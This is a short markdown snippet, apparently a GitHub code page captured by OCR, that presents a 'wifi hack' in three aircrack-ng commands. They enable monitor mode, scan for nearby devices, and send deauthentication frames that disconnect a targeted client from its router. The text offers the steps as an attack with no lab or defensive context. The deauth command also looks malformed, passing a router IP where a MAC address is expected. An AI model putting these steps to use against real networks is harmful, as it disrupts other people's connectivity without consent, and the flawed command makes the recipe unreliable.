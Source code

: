 #wifi hack using airmon-ng

### enable monitor mode so it can listens to packets on the network

airmon-ng start wlan0

### scan for nearby wifi devices

airodump-ng wlan0mon

### disconnect targeted devices

aireplay-ng --deauth 10 -n <router ip > -c <target mac address>  wlan0mon